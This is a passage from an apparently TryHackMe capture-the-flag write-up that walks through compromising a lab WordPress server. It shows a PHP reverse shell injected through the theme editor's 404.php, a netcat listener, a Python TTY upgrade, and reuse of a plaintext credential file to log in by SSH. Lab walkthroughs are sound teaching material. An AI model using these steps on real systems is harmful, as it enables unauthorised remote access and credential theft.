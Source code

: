 While browsing, I noticed a Private "To-Do List" post by `admin.`
![alt text](https://i.imgur.com/rTVZbg4.png "Private Post")
It looks like we found credentials for a user named `william`.

## Initial Access

Since we have administrative access to the WordPress installation, we can upload PHP code to the server to gain a remote shell on our attacker machine. Head over to `http://internal.thm/blog/wp-admin/theme-editor.php` and place a [PHP Reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) into the `404.php` template.
![alt text](https://i.imgur.com/Byq9Zuk.png "Reverse Shell")

Now click 'Update File.'

Next, we want to setup a netcat listener on our attacker machine:
```
root@kali:~/Desktop/THM/Internal# nc -nlvp 1234
listening on [any] 1234 ...
```

Now everything is in place to gain a shell. Execute the PHP reverse shell by visiting the following URL `http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php`. Our listener should've received a connection from the server:
![alt text](https://i.imgur.com/rf0MbXV.png "Netcat Shell")

Let's spawn a [TTY Shell](https://netsec.ws/?p=337):
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

## Privilege Escalation (User)

Navigating around the fileshare, I found an interesting file called `wp-save.txt`.
```
$ cat wp-save.txt

Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bu******23

```
We found creds for `Aubreanna`! Let's use these to SSH into the machine and gain a more stable shell.

```
ssh aubreanna@internal.thm
```
![alt text](https://i.imgur.com/hAN9rsm.png "SSH & User Flag")

Along with the user flag in Aubreanna's home directory, we have a `jenkins.txt` file.
